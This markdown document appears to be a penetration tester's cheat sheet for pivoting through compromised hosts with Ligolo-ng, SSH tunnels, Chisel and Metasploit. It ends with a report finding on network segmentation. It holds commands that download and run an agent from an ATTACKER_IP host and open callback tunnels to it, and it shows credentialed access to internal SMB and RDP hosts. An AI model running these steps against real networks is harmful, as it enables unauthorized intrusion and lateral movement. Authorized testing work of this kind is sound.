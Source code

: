 # Network Pivoting & Tunneling

## When to Pivot

**You need to pivot when:**
- Compromised host has multiple network interfaces
- Found credentials but can't reach systems directly
- Internal network discovered from compromised host
- Need to access services only accessible from inside

**Check for pivot opportunities:**
```bash
# Linux
ip a
ip route
arp -a

# Windows
ipconfig /all
route print
arp -a
```

## Ligolo-ng 

### Setup

**On Kali (proxy server):**
```bash
# Download
wget https://github.com/nicocha30/ligolo-ng/releases/latest/download/ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz
tar -xzf ligolo-ng_proxy_*
chmod +x proxy

# Start proxy
sudo ./proxy -selfcert
```

**On compromised host (agent):**
```bash
# Transfer agent binary
# Linux:
wget http://ATTACKER_IP/agent
chmod +x agent
./agent -connect ATTACKER_IP:11601 -ignore-cert

# Windows:
certutil -urlcache -f http://ATTACKER_IP/agent.exe agent.exe
agent.exe -connect ATTACKER_IP:11601 -ignore-cert
```

### Using Ligolo

**On Kali (in ligolo proxy interface):**
```
# Session should appear
ligolo-ng » session

# Select session (use tab completion)
ligolo-ng » session 1

# Add route to internal network
ligolo-ng » route_add 192.168.2.0/24

# Start tunnel
ligolo-ng » start

# Now you can access internal network directly!
nmap 192.168.2.0/24
netexec smb 192.168.2.10 -u USERNAME -p 'PASSWORD'
```

**On Kali (setup interface - one time):**
```bash
# Create tunnel interface
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# Add route (after starting ligolo tunnel)
sudo ip route add 192.168.2.0/24 dev ligolo
```

## SSH Tunneling (Alternative)

### Dynamic Port Forwarding (SOCKS Proxy)
```bash
# Setup SSH tunnel
ssh -D 9050 user@COMPROMISED_HOST

# Use with proxychains
proxychains nmap -sT -Pn 192.168.2.10
proxychains netexec smb 192.168.2.10 -u USERNAME -p 'PASSWORD'

# Configure proxychains
# Edit /etc/proxychains.conf:
# socks5 127.0.0.1 9050
```

### Local Port Forwarding
```bash
# Forward remote service to local port
ssh -L 3389:192.168.2.10:3389 user@COMPROMISED_HOST

# Now access via localhost
xfreerdp /v:localhost:3389 /u:USERNAME /p:PASSWORD
```

### Remote Port Forwarding
```bash
# Expose Kali port on compromised host
ssh -R 8080:localhost:80 user@COMPROMISED_HOST

# Compromised host can now access Kali's port 80 via localhost:8080
# Useful for file transfers from deep networks
```

## Chisel (Alternative)

### Setup

**On Kali:**
```bash
./chisel server -p 8000 --reverse
```

**On compromised host:**
```bash
# SOCKS proxy
./chisel client ATTACKER_IP:8000 R:socks

# Use with proxychains as before
```

## Metasploit Pivoting

### autoroute
```bash
# In meterpreter session
run autoroute -s 192.168.2.0/24

# Background session
background

# Use auxiliary modules through pivot
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.2.0/24
set PORTS 80,443,445,3389
run
```

### Port Forwarding
```bash
# Forward remote RDP to local port
portfwd add -l 3389 -p 3389 -r 192.168.2.10

# Access via localhost
xfreerdp /v:localhost /u:USERNAME
```

## Double Pivot (Network → Network → Network)

```bash
# Pivot 1: Kali → DMZ (10.10.10.50)
ssh -D 9050 user@10.10.10.50

# Pivot 2: DMZ → Internal (from DMZ host)
ssh -D 9051 user@192.168.1.50

# Now use proxychains with second proxy for deepest network
# Edit /etc/proxychains.conf to chain SOCKS proxies
```

## Managing Multiple Pivots

### Track Your Pivots
```
Kali (ATTACKER_IP)
  ↓ SSH tunnel (9050)
DMZ Host (10.10.10.50)
  ↓ Ligolo tunnel
Internal Network (192.168.1.0/24)
  ↓ SSH tunnel from 192.168.1.50
Restricted Network (172.16.0.0/24)
```

### tmux Organization
```bash
# Window 0: Kali commands
# Window 1: DMZ shell (10.10.10.50)
# Window 2: Internal shell (192.168.1.50)  
# Window 3: Ligolo proxy interface
# Window 4: Notes on network topology
```

## Troubleshooting

### Pivot Not Working
```bash
# Check if tunnel is up
ip route  # Should show route to internal network

# Test connectivity
ping 192.168.2.10  # Should work through tunnel

# Check ligolo session
# In ligolo: session → should show active
```

### Performance Issues
```bash
# Ligolo is faster than SSH tunnels
# Use Ligolo for heavy traffic (nmap scans)
# Use SSH for simple access
```

## Timeline
- Ligolo setup: 5 minutes
- Add routes: 1 minute
- Test access: 1 minute
- Total: 7-10 minutes per pivot

## GhostWriter Finding
**Severity:** MEDIUM (network segmentation issue)
**Title:** Insufficient Network Segmentation Enables Lateral Movement
**Impact:** Compromised DMZ host provides access to internal network
